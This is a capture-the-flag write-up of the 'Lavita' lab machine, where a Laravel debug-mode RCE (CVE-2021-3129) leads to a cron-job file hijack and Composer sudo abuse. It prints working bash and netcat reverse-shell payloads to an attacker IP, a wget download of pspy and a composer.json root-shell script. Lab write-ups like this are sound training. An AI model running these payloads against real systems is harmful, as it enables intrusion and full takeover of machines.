

<link rel="stylesheet" href="{{ '/assets/css/obsidian-dividers.css' | relative_url }}">

## Summary

<div class="divider divider-info">
    <span class="divider-title">TL;DR</span>
    <span class="divider-content">Lavita is a Medium Linux box featuring a Laravel application with Debug mode enabled, leading to Remote Code Execution via CVE-2021-3129. Lateral movement involves hijacking a custom Laravel Artisan command running as a cron job. Privilege escalation is achieved by exploiting sudo privileges on the Composer binary.</span>
</div>

**Key Vulnerabilities:**
- Laravel Debug Mode Enabled
- CVE-2021-3129 (Unauthenticated RCE)
- Writable Laravel Console Command (Cron Job Hijacking)
- Sudo privilege on Composer with directory control

---

## Enumeration

### Nmap Scan

**Initial scan:**
```bash
nmap -vv -T5 -p- 192.168.x.x

nmap -vv -T5 -p22,80 -sC -sV 192.168.x.x
```

**Results:**

| Port | Service | TCP/UDP |
| ---- | ------- | ------- |
| 22   | SSH     | TCP     |
| 80   | HTTP    | TCP     |

**Key findings:**
- Standard web server ports exposed
- SSH available for later access

---

### Web Enumeration

**Step 1:** Initial reconnaissance

Accessed the web application on port 80. Used `dirsearch` to discover endpoints:
```bash
dirsearch -u http://192.168.x.x/
```
Output revealed `/login` and `/register`.

**Step 2:** Account creation and exploration

Registered a new account to access the dashboard:

![[Pasted image 20251106205744.png]]

**Step 3:** Information Disclosure via Debug Mode

While testing functionality, I noticed an interesting behavior in the image upload feature. More importantly, triggering an error reveals that **Laravel Debug Mode** is enabled.

![[Pasted image 20251106205908.png]]

A 404 error page confirms the technology stack details:

![[Pasted image 20251106205928.png]]

<div class="divider divider-info">
    <span class="divider-title">Laravel Debug Mode</span>
    <span class="divider-content">When Laravel's debug mode (APP_DEBUG) is set to true, the application displays detailed stack traces for errors. This often discloses sensitive environment variables, database credentials, and internal paths. In conjunction with Ignition (the error page handler), it can be exploited for RCE.</span>
</div>

---

## Initial Foothold

### Vulnerability Discovery

**Vulnerability:** CVE-2021-3129 - Laravel Debug Mode RCE

Research confirmed that Laravel with Ignition (Debug mode) enabled is vulnerable to unauthenticated remote code execution.

**Reference:** [CVE-2021-3129 Exploit](https://github.com/joshuavanderpoll/CVE-2021-3129)

---

### Exploitation

**Step 1:** Execute the exploit

Used the automated exploit tool to gain code execution:

```bash
# Clone the exploit
git clone https://github.com/joshuavanderpoll/CVE-2021-3129
cd CVE-2021-3129

# Execute payload
python3 exploit.py http://192.168.x.x/ --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"
```

**Step 2:** Receive Reverse Shell

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [192.168.x.x] 48212
www-data@lavita:/var/www/html/lavita/public$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<div class="divider divider-root">
    <span class="divider-title">Shell Access</span>
    <span class="divider-content">Successfully obtained reverse shell as www-data</span>
</div>

---

## Lateral Movement

### Process Enumeration

**Step 1:** Monitor processes with pspy

After manual enumeration yielded few results, I uploaded `pspy` to monitor background processes.

```bash
# Upload pspy64
wget http://10.10.14.5:8000/pspy64
chmod +x pspy64
./pspy64
```

**Step 2:** Identify Cron Job

A recurring task appears every minute:

![[Pasted image 20251106210224.png]]

The command `php artisan clear:pictures` is being executed by a user (likely `skunk` or root).

<div class="divider divider-info">
    <span class="divider-title">Laravel Artisan Console</span>
    <span class="divider-content">Artisan is the command-line interface included with Laravel. Developers can define custom commands in `app/Console/Commands`. The discovered command `clear:pictures` suggests a custom script exists.</span>
</div>

### Hijacking Custom Command

**Step 3:** Locate the command file

Found the corresponding file at `app/Console/Commands/ClearCache.php`.

**Step 4:** Check permissions

```bash
ls -l app/Console/Commands/ClearCache.php
-rwxrwxrwx 1 skunk www-data 408 Nov 06 2025 app/Console/Commands/ClearCache.php
```

The file is writable by `www-data`!

**Step 5:** Inject malicious code

Original file content:

![[Pasted image 20251106210608.png]]

I modified the file to execute a reverse shell instead of the cleanup command:

![[Pasted image 20251106210621.png]]

```php
<?php
// Payload injected into handle() function
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4445 >/tmp/f");
?>
```

**Step 6:** Catch the shell

Waited for the cron job to trigger (next minute).

```bash
nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.5] from (UNKNOWN) [192.168.x.x] 59122
skunk@lavita:~$ id
uid=1000(skunk) gid=1000(skunk) groups=1000(skunk)
```

<div class="divider divider-root">
    <span class="divider-title">User Access</span>
    <span class="divider-content">Successfully moved laterally to user skunk</span>
</div>

---

## Privilege Escalation

### Sudo Rights

**Step 1:** Check sudo permissions

![[Pasted image 20251106210734.png]]

```bash
sudo -l
User skunk may run the following commands on lavita:
    (root) NOPASSWD: /usr/bin/composer --working-dir=/var/www/html/lavita run-script *
```

The user can run `composer` scripts in the `/var/www/html/lavita` directory as root.

### Composer Exploitation

**Step 2:** Prepare the exploit (GTFOBins)

I need to modify the `composer.json` file in the working directory to define a malicious script.

```bash
# Define target directory
TF=/var/www/html/lavita

# Inject payload into composer.json scripts section
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > $TF/composer.json
```

**Step 3:** Execute sudo command

```bash
sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script x
```

![[Pasted image 20251106211058.png]]

![[Pasted image 20251106211115.png]]

<div class="divider divider-root">
    <span class="divider-title">Root Access</span>
    <span class="divider-content">Successfully escalated privileges to root</span>
</div>

---

## Post-Exploitation

**Flags:**
- User: `/home/skunk/local.txt`
- Root: `/root/proof.txt`

**Attack Chain Summary:**
1. Debug mode enabled on Laravel application leaks info
2. CVE-2021-3129 exploited for initial RCE as www-data
3. `pspy` reveals repetitive custom Artisan command
4. Custom command file `ClearCache.php` found writable
5. File overwritten with reverse shell payload
6. Cron job execution grants shell as user `skunk`
7. `sudo -l` reveals Composer privilege in web directory
8. `composer.json` modified to include malicious script
9. Sudo command executed to spawn root shell

**Key Lessons:**
- Never leave `APP_DEBUG=true` in production Laravel environments
- Writable scripts executed by privileged users/cron are a major security risk
- `pspy` is essential for identifying hidden cron jobs
- Sudo permissions on package managers (composer, npm, pip) often lead to easy root access via script execution

---

## References

- [CVE-2021-3129 Exploit](https://github.com/joshuavanderpoll/CVE-2021-3129)
- [Laravel Artisan Console](https://laravel.com/docs/8.x/artisan)
- [GTFOBins - Composer](https://gtfobins.github.io/gtfobins/composer/)

---

## Timeline



---

**Pwned on:** 06/11/2025

**Difficulty Rating:** ⭐⭐ (Standard CVE + misconfiguration)  
**Fun Factor:** ⭐⭐⭐ (Nice lateral movement via artisan)
